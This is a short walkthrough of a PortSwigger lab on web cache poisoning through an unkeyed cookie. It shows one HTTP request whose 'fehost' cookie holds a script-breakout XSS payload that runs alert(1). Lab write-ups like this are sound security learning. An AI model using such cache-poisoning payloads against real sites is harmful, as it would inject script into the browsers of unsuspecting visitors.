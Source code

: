 
# Web cache poisoning with an unkeyed cookie

This lab is vulnerable to web cache poisoning because cookies aren't included in the cache key. An unsuspecting user regularly visits the site's home page. To solve this lab, poison the cache with a response that executes alert(1) in the visitor's browser.

---------------------------------------------

References: 

- https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws



![img](images/Web%20cache%20poisoning%20with%20an%20unkeyed%20cookie/1.png)

---------------------------------------------


The content of the cookie “fehost” is reflected in the HTML code:



![img](images/Web%20cache%20poisoning%20with%20an%20unkeyed%20cookie/2.png)


I will send the following payload:

``` 
GET / HTTP/2
Cookie: session=OwRJHH4NdgNoL0ghzNHYgwQTFpmM6m0G; fehost=prod-cache-01"}</script><script>alert(1)</script><script>{"
...
``` 



![img](images/Web%20cache%20poisoning%20with%20an%20unkeyed%20cookie/3.png)


When accessing the page:



![img](images/Web%20cache%20poisoning%20with%20an%20unkeyed%20cookie/4.png)